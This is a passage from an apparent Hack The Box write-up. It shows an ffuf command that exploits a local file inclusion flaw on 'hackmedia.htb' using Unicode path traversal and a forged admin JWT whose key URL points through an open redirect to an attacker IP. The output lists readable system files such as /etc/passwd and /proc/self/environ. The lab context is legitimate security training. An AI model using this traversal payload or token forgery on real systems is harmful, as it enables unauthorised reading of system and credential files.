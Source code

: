 ![Image.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/C4F10D24-2330-44F1-B69C-FB85190DA800/B5C74196-2B00-4B47-A357-C898ED98B21A_2/Image.png)

As you can see, we can read local files now via this technique. Now we need to fuzz to find the files which we can read.

```
🔥\> ffuf -u 'http://hackmedia.htb/display/?page=︰/︰/︰/︰FUZZ' -b 'auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjExL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.bFeaPvNlsRlSU9hrRkn8To1_eGBbnK722mGOME4RvsnyOTQJR-xwSLKHtKjIuNA0ipk_jx2Kca41tV3sAGHmV9nsa8hOiuov7oa-3XbwPQKfonSNTgPAnOKStcjYcfc3OSz1zVZTNw9bw11Myoq8F4kbROvkF_g41yuRYBq0O3hYS__ZUVDo4n0Pf18vAKAM9BIe9sfptzG2i6X2jNpTuZH2GnDlkJtNVKWBtBqBzBEp7MWRkOak7mH9-2vwtXfLiqIE57lONzrRGrCIlqrYXyasbQ5LWw3y7gWsO6xUFkhFf0tGSJESA7r1IFNFDSf7-wCHTz6MWxjsfa57P1bdPQ' -mc 200 -w LFI-LFISuite-pathtotest-huge.txt -fw 1299

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://hackmedia.htb/display/?page=︰/︰/︰/︰FUZZ
 :: Wordlist         : FUZZ: LFI-LFISuite-pathtotest-huge.txt
 :: Header           : Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjExL2p3a3MuanNvbiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.bFeaPvNlsRlSU9hrRkn8To1_eGBbnK722mGOME4RvsnyOTQJR-xwSLKHtKjIuNA0ipk_jx2Kca41tV3sAGHmV9nsa8hOiuov7oa-3XbwPQKfonSNTgPAnOKStcjYcfc3OSz1zVZTNw9bw11Myoq8F4kbROvkF_g41yuRYBq0O3hYS__ZUVDo4n0Pf18vAKAM9BIe9sfptzG2i6X2jNpTuZH2GnDlkJtNVKWBtBqBzBEp7MWRkOak7mH9-2vwtXfLiqIE57lONzrRGrCIlqrYXyasbQ5LWw3y7gWsO6xUFkhFf0tGSJESA7r1IFNFDSf7-wCHTz6MWxjsfa57P1bdPQ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response words: 1299
________________________________________________

/etc/passwd             [Status: 200, Size: 1876, Words: 17, Lines: 36]
/etc/group              [Status: 200, Size: 778, Words: 1, Lines: 60]
/proc/self/environ      [Status: 200, Size: 208, Words: 1, Lines: 1]
/proc/self/cmdline      [Status: 200, Size: 87, Words: 1, Lines: 1]
/proc/self/stat         [Status: 200, Size: 313, Words: 52, Lines: 2]
/proc/self/status       [Status: 200, Size: 1373, Words: 93, Lines: 56]
/proc/self/fd/0         [Status: 200, Size: 0, Words: 1, Lines: 1]
/etc/mysql/my.cnf       [Status: 200, Size: 682, Words: 89, Lines: 22]
```

None of these files are useful for our cause. They don’t have any information which can help us to gain shell access. However, we know that NginX is running on the machine, we can guess the path of configuration file.
